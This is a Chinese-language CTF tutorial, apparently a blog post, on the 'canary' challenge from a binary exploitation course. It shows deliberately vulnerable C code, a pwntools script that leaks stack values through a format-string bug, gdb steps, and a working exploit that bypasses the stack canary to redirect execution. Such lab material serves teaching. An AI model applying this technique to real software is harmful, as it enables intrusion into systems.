 ﻿简介
“pwn"这个词的源起以及它被广泛地普遍使用的原因，源自于魔兽争霸某段讯息上设计师打字时拼错而造成的，原先的字词应该是"own"这个字，因为 ‘p’ 与 ‘o’ 在标准英文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。发音类似"砰”，对黑客而言，这就是成功实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

下载这个github库，进入10文件夹
```
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
```
# 获取文件信息
使用checksec工具可以查看程序更详细的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/c5ee91a3f5d34d7a9ad07ca0210cee39.png)

从上到下依次是:
```
32位程序
部分RELRO，基本上所有程序都默认的有这个
开启了栈保护
启用了数据执行防护，我们不能在堆栈中执行代码
没有启用pie防护
```
Canary是为了避免程序缓冲区溢出的一个保护机制，他会在堆栈中插入一个值，当函数返回时，程序会检查值是否被更改，用来确定程序是否发生了缓冲区溢出

查看程序源代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/713af36165484279982d2904888c4ee4.png)

```
#include <stdio.h>
#include <string.h>

void hacked() {   //自定义hacked模块
    puts("Wait, how did you get in here?!");   //输出内容
}

void vuln() {   //自定义vuln模块
    char buffer[64];  //定义buffer变量，缓冲区为64个字符

    puts("You'll never beat my state of the art stack protector!");   //输出内容
    gets(buffer);   //获取我们的输入
    printf(buffer);   //输出我们的输入

    puts("\nWho said gets() is dangerous? Good luck with your BOF attack :P");   //输出字符
    gets(buffer);   //再次获取输入
}

int main() {
    vuln();   //调用vuln模块
}
```


我们需要让程序执行hacked模块的内容，就要控制程序的返回地址，然后我们用ghidra打开程序，去到main函数的地方

![在这里插入图片描述](https://img-blog.csdnimg.cn/8f22cb3997f646309a7c32423553a38e.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/0023823974d148d48a7b435443a3bf7a.png)

这里就是canary的代码，如果canary值改变了，就会触发防护

# fuzz
因为程序执行了printf函数，我们可以写一个小脚本，让程序泄露堆栈中的值


```
from pwn import *

elf = context.binary = ELF('./canary', checksec=False)   //获取程序详细信息
for i in range(100):   //测试100个地址
    try:
        p = process(level='error')   //创建进程
        p.sendline('%{}$p'.format(i).encode())   //发送指定的字符串，将第n个指针打印为字符串
        p.recvline()   //接收程序输出
        result = p.recvline().decode()   
        if result:   //如果堆栈中的值不为空就输出
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

多运行几次脚本，可以看到这里泄露的很多值

![在这里插入图片描述](https://img-blog.csdnimg.cn/99dac3ca676f44bc985919c944554108.png)

# 动态调试

使用gdb打开程序，然后查看程序里调用的函数
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f3c4a52071dc4311a8b819dcdd94822d.png)

然后查看vuln函数的汇编代码
```
disassemble vuln
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3da3e1657a04123904c8459a7da4816.png)

我们在调用printf函数的地方下一个断点，然后运行程序
```
b *0x0804921f
run
```

输入canary查看canary的偏移量


![在这里插入图片描述](https://img-blog.csdnimg.cn/6d8de25307ae448f9f68d32886534eaf.png)

然后我们看看堆栈里的值
```
x/100x $esp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac91648330bb4ae6a4def4209af5853c.png)


从第一个开始，canary的偏移量在第24个，但是偏移量是从0开始的，所以在第23个，重新运行刚刚那个fuzz脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/fe636d45adbc458b99732b141d3a2511.png)

堆栈中第23个就是canary的值，我们保证让他不变即可

# pwntools
![在这里插入图片描述](https://img-blog.csdnimg.cn/2ad748d67bbb451f95a698e2b5e587bd.png)

通过ghidra分析程序可以知道，buffer的缓冲区是64个字符

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec70649ef1b6413ba4d77cb893eb5e61.png)

在汇编界面，我们可以看到buffer的缓冲区区间，是64个字符，但是这里的栈有-0x50的空间，我们转换一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b778ba14bb34347a999f889f8c3f792.png)

也就是我们要覆盖到程序的返回地址，buffer已知的缓冲区区间64+canary的值4+12个垃圾字符=80
```
64 + 4 + 12 = 80
垃圾字符 + canary + 垃圾字符 + hacked函数地址
```
然后我们就可以开始写脚本了

```
from pwn import *

exe = './canary'
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序的详细信息

io = process("./canary")   //启动程序
offset = 64   //buffer函数的缓冲区区间
io.sendlineafter(b'!', '%{}$p'.format(23).encode())  //获取我们刚刚fuzz泄露的第23个canary的值
io.recvline()   //获取程序输出
canary = int(io.recvline().strip(), 16)  //将泄露的地址以整数形式存入canary变量中

payload = flat([   
    offset * b'A',   //buffer函数的缓冲区区间
    canary,  //canary的值
    12 * b'A',   //覆盖到返回指针
    elf.symbols.hacked  //跳转到hacked函数地址
])

io.sendlineafter(b':P', payload)   //当程序输出：P时发送payload
io.interactive()   //获取交互
```
运行脚本，成功破解程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/1edd306fb4934b3ba0b7f8ce591fbf84.png)




